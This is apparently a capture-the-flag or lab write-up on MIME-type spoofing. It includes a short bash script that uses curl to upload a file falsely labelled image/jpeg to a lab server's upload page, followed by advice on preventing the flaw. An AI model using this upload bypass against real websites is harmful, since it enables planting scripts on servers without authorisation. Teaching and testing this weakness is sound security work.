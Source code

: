 # Mime spoofing

The website have page to upload files, but it only accepts images. If the server is not properly protected and just check the Mime type, we can upload a script disguised as an image. Let's do a simple bash script that will simulate this :
```bash
ip="192.168.56.105"
script="/tmp/bad_script.sh"

touch "$script"
curl -s -X POST "$ip/index.php?page=upload" \
	-F "uploaded=@$script;type=image/jpeg" \
	-F "Upload=Upload"  \
	| grep 'flag'

rm "$script"
```

# How to prevent it
To prevent mime spoofing, you should not rely (only) on the file extension or the mime type to determine the file type. Instead, you should check the file content to ensure it is a valid image. Also, you should implement proper object storage management to handle file uploads securely (with unique identifiers, ...).